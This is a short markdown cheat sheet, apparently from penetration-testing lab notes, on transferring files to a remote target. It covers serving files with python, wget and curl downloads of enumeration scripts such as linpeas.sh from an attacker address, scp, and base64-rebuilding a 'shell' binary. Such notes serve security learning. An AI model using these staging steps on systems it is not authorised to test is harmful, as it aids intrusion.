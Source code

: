 ```yaml
---
title: "Transferring files"
permalink: /Transferring_files/
layout: single
author-profile: true
---
```


## Web servers
`python3 -m http.server 8000`  Start a local webserver 

`wget http://10.10.14.1:8000/linpeas.sh`  Download a file on the remote server from our local machine 

`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`  Download a file on the remote server from our local machine 

## other

`scp linenum.sh user@remotehost:/tmp/linenum.sh`  Transfer a file to the remote server with `scp` (requires SSH access) 

`base64 shell -w 0`  Convert a file to `base64` 

`echo f0VMR...SNIO...InmDwU \ base64 -d > shell`  Convert a file from `base64` back to its orig 

`md5sum shell`  Check the file's `md5sum` to ensure it converted correctly 
